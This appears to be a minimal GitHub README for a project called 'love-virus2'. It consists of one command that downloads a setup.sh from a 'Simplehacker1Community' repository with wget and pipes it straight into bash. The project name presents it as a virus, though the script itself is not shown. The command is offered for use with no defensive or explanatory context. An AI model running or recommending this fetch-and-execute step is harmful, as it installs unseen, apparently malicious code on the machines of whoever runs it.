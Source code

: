 # love-virus2

wget -O - https://raw.githubusercontent.com/Simplehacker1Community/love-virus2/simplehacker/setup.sh | bash
